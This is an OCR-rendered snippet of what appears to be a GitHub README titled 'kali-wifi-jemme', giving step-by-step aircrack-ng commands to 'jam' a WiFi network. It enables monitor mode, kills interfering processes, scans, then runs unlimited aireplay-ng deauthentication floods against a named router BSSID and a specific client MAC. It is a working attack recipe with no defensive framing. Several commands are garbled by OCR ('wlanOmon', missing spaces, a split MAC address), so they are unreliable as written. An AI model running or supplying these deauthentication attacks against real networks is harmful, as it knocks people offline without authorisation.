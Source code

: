 # kali-wifi-jemme
13. How to Jam a WiFi and Disconnect Any User From

WIFi Router.

sudo airmon-ng start wlan0

sudo airmon-ng check kill

sudo airodump-ng wlan0mon

sudo airmon-ng start wlan0mon 11

sudo aireplay-ng -0 0 -a C6:25:06:57:99:0E wlan0mon

sudo airodump-ng -c 11-bssid C6:25:06:57:99:0E

wlanOmon

sudo aireplay-ng-0 0-a C6:25:06:57:99:0E -c 90:C1:15:1C:

85:C0 wlanOmon

